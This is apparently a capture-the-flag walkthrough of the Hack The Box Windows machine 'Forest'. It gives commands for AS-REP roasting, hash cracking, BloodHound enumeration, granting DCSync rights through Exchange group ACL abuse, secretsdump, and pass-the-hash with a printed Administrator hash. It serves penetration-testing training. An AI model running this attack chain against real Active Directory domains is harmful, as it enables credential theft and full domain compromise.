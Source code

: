 ```yaml
---
title: "[HTB] Machine: Forest"
description: "[HTB] Machine: Forest"
date: 2023-06-24
menu:
  sidebar:
    name: "[HTB] Machine: Forest"
    identifier: htb-machine-forest
    parent: htb-machines-windows
    weight: 10
hero: images/forest.png
tags: ["HTB", "active-directory", "dig", "dns", "rpc", "rpcclient", "as-rep-roast", "hashcat", "winrm", "evil-winrm", "sharphound", "smbserver", "bloodhound", "dcsync", "aclpwn", "scheduled-task"]
---
```


# Forest
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.161 -T4
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-26 16:32 BST
Nmap scan report for 10.10.10.161 (10.10.10.161)
Host is up (0.15s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-06-26 15:39:16Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h26m18s, deviation: 4h02m30s, median: 6m17s
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-06-26T15:39:27
|_  start_date: 2023-06-26T14:24:16
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: 
FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2023-06-26T08:39:24-07:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.94 seconds

```
- Dns
  - No results with zone transfer

![](./images/1.png)

- Nothing on `smb`
- Let's use the following post:
  - https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb/rpcclient-enumeration 
  - https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/

![](./images/2.png)

![](./images/3.png)

![](./images/4.png)

## Foothold/User
- We got the following users
```
Administrator
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

- Let's start with `AS-REP Roasting`
  - `impacket-GetNPUsers htb/ -dc-ip 10.10.10.161 -usersfile user.list -format hashcat -no-pass `

![](./images/5.png)

- We got hash
  - Let's crack it: `hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt`

![](./images/6.png)

- Let's connect
  - `evil-winrm -u 'svc-alfresco' -p 's3rvice' -i 10.10.10.161`

![](./images/7.png) 

## Root
- Let's enumerate domain using `bloodhound`
  - I ran python version of the tool from the attack box: `bloodhound-python -u 'svc-alfresco' -p 's3rvice' -d htb.local -dc forest.htb.local -ns 10.10.10.161 -c all --zip`
  - You can upload `Sharphound` to the box and run it to get the same results
  - Start `neo4j`
    - `sudo neo4j start`
  - Launch `bloodhound`:
    - `bloodhound`
  - And import `zip` file 

![](./images/8.png) 

![](./images/9.png) 

- `svc-alfresco` is a member of `Service Accounts`, which is a member of `Privileged IT Accounts`, which is a member of `Account Operators`, 
  - Thus `svc-alfresco` is a member of `Account Operators`. 
  - While Account Operators has `Generic All` privilege on the `Exchange Windows Permissions` group.
  - According to the [post](https://duo.com/decipher/microsoft-exchange-users-get-admin-rights-in-privilege-escalation-attack):
    - `The Exchange Windows Permissions group has WriteDacl access on the Domain object in Active Directory, which means any member of the group can modify the domain privileges, such as the ability to perform DCSync, or synchronization operations by Domain Controllers.`
  - So we can perform `dcsync` attack
    - `$pass = ConvertTo-SecureString "Password123" -AsPlainText -Force`
    - `New-ADUser pentest -AccountPassword $pass -Enabled $True`
    - `Add-ADGroupMember -Identity "Exchange Windows Permissions" -members pentest`
    - `$cred = New-Object system.management.automation.pscredential('htb\pentest', $pass)`
    - `Add-ObjectACL -PrincipalIdentity pentest -Credential $cred -Rights DCSync`
  - We need to perform these commands one by one
  - And then perform `dcsync`
    - `impacket-secretsdump htb.local/pentest:Password123@10.10.10.161 -just-dc`

![](./images/10.png) 

![](./images/11.png) 

- Connect using Administrator's hash
  - `impacket-psexec htb.local/administrator@10.10.10.161 -hashes 'aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6'`

![](./images/12.png) 
